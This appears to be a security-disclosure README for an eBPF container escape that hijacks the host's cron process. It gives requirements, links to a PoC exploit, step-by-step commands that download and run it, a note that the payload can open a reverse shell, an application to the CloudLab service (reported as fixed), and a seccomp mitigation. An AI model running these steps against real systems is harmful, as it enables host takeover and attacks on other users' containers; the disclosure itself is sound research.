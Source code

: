 # Universal Container Escape with eBPF

## Attack Requirements
Enabling eBPF inside a contianer. This needs to run docker with the following flag:  
- `--cap-add SYS_ADMIN`
- `--privileged`
- `-v /var/run/docker.sock:/var/run/docker.sock`  

If the container is running with any of the three config, users can run eBPF in this container and can use eBPF to escape this container.  
e.g., `docker run -it --name container_test --privileged ubuntu:20.04 bash`

## Attack Detail
Inside a Container, the attackers can use eBPF tracing program (e.g., KProbe) to hijack the processes out of the containers via writing their memory and opened files with the bpf_probe_write_user helper. By injecting malicious commands  (e.g., spawn a reverse shell to the attacker's host) to a privilege process (e.g., bash, Cron) in Host VM, the attackers can execute commands in the host to get control of the host VM and escape the container. 


## Exploit Any Container on Ubuntu 20.04
Here is a PoC for hijacking the Cron process in Ubuntu 20.04. You can run a container with CAP_SYS_ADMIN in Ubuntu 20.04, and execute the PoC program inside the container to hijack the host's Cron process and escape the container.  

#### Get the PoC
PoC Links: [Link1](https://cloud.tsinghua.edu.cn/f/063dd19446d24119b860/?dl=1)  or [Link2](https://drive.google.com/file/d/1glJCZVZuHCT9Y_V4PvQ9s_KXLf2AVBHX/view?usp=sharing)  

The PoC files contains several simple files,
``` bash
\evil_test
├── Dockerfile
├── README.txt
├── Vagrantfile
├── build.sh
├── exploit
└── run.sh
```

#### Run the PoC
Step-1: Create a VM with Ubuntu 20.04.
``` bash
$ tee -a Vagrantfile <<EOF
Vagrant.configure("2") do |config|
  config.vm.box = "generic/ubuntu2004"
end
EOF

$ vagrant init
$ vagrant up
$ vagrant ssh
```

Step-2: Launch the container and perform attack.
``` bash
# in the vagrant VM
$ wget https://cloud.tsinghua.edu.cn/f/063dd19446d24119b860/?dl=1 -O evil_test.zip
$ unzip evil_test.zip
$ cd evial_test
$ bash build.sh
Tick: 1
Tick: 2
...
```

Note that the `build.sh` will build and run the following Dockfile. 
``` bash
FROM ubuntu:20.04        
ARG DEBIAN_FRONTEND=noninteractive        
RUN apt update -y
RUN apt install -y wget
COPY ./exploit /
COPY ./run.sh /
CMD ["/bin/bash","/run.sh"]
```


Step-3: Check if the eBPF exploit program can success to escape the container.   

The eBPF `exploit` program will hijack the Cron of the host from the container. It will inject a command to the Cron to download and run a bash file, e.g., the `attack.sh` which create a directory and file at `/root`. If it success to escape the container, you will find a file with content `pwn` created in the path `/root/evil_escape/escape `.

``` bash
# in the vagrant VM
$ ls /root/evil_escape/escape
/root/evil_escape/escape  xxx

$ cat /root/evil_escape/escape 
pwn
```

Note that, the attackers actually can execute any commands in the `attack.sh` more than write files to `\root`.


## Exploit the CloudLab
CloudLab is a Docker based desktop environment. It has thousands of users and some of them deploy it online as public/private programming services. Users can run code in their online shell. Accordingly, attackers can escape the container via eBPF and harm other users' container instances.    

Here's the steps to run the exploit file in the container's shell of CloudLab.
``` bash
// inside the container
$ tools/docker/run
# wget https://cloud.tsinghua.edu.cn/f/886e8962ccb4472d8eb7/?dl=1 -O ebpf_exploit
# chmod +x ebpf_exploit
#./ebpf_exploit
Tick: 1
Tick: 2
...
```
Then, the container is escaped and can spwan a reserve shell to the attacker's server.

Note that this issue has been fixed at Jun 30 2022 after we disclose it to the TinyLab. 

### Mitigate
To run container with cap SYS_ADMIN, eBPF should be disabled. 
For example, we can set a seccomp rule for the Docker to deny the sys_bpf. You can write a Seccomp profile just like this,    
https://github.com/tinyclub/cloud-lab/blob/d19ff92713685a7fb84b423dea6a184b25c378c9/configs/common/seccomp-profiles-default.json


Then, you can use the `--security-opt seccomp=profile.json` flag to launch the Docker image with seccomp rules.

``` bash
docker run -it --name container_test --security-opt seccomp=profile.json ubuntu:20.04 bash
```